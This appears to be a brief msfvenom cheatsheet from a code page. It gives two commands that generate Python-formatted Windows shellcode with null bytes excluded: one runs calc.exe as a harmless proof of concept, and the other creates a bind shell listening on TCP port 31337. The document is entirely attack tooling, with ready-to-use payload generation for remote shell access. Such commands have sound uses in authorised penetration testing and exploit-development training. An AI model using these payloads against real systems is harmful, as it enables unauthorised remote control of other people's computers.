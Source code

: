 ## Msfvenom 
### cheatsheet
```bash
msfvenom -p windows/exec CMD=calc.exe -b '\x00' -f py

msfvenom -p windows/shell_bind_tcp LPORT=31337 -b '\x00' -f py EXITFUNC=thread
```